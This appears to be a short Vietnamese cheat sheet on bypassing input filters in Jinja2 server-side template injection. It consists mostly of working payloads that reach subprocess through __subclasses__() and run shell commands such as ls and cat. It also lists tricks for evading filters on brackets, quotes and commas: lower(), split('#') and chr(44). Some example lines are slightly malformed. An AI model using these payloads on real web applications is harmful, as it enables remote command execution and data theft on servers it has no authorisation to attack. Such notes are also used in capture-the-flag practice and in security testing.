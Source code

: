 SSTI bypass ',' filter 1 cái gì đó như base subclass.... hay filter '' "" ....


Filter [], base 
Jinja2
{{ ['1objectgidooday'].\_\_class__["\_\_bASe__".lower()].\_\_subclasses__()[262]\(["ls","/aaaa"],stdout=-1).communicate() }}

Python bth
getattr("['1objectgidooday'].\_\_class__","["\_\_bASe__".lower()].\_\_subclasses__()[262]\(["ls","/aaaa"],stdout=-1).communicate()")

Gọi 1 object bất kì như là [0] hay ['aaaa'], chuyển toàn bộ bằng hàm lower rồi ghép chữ


Filter dấu , 

{{ ['1objectgidooday'].\_\_class__["\_\_bASe__".lower()].\_\_subclasses__()[262]\(\*(["cat#/aaaaa".split('#')]+[-1]+[None]+[None]+[-1])).communicate() }}

nhiều cách chr(44), \x2c, []+[], "a#b".split("#") > [a,b]

\*(["cat#/haaaaaa".split('#')]+[-1]+[None]+[None]+[-1])) 
tương đương
(["cat","/aaaaa".split('#')"],stdout=-1)


